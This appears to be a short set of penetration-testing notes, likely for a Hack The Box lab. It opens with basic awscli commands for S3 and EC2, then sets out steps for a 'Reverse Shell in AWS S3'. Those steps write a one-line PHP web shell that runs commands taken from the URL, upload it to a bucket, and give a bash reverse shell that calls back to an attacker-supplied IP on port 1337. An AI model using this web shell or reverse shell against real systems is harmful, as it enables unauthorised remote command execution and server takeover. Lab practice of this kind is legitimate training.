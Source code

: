 ##`awscli`

Is the official command-line interface (CLI) provided by Amazon Web Services (AWS). It allows users to interact with various AWS services directly from the command line
Used to interact with AWS servers, domains, and S3 buckets.

### To execute commands on an endpoint
aws --endpoint=<hostname> <type> <command>

### List S3 Buckets
aws s3 ls

### Create an EC2 Instance
aws ec2 run-instances --image-id ami-xxxxxxxx --instance-type t2.micro --key-name MyKeyPair

### List EC2 Instances
aws ec2 describe-instances

### Configure AWS CLI
aws configure






##Reverse Shell in AWS S3

If an AWS bucket is found, you can upload a script to execute commands on it.

### 1. Create a PHP script that executes commands
echo '<?php system($_GET["cmd"]); ?>' > shell.php


### 2. Upload the script to the bucket
aws --endpoint={url} s3 cp shell.php s3://thetoppers.htb


### 3. Create a reverse shell script and listen on your machine
Reverse shell script
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
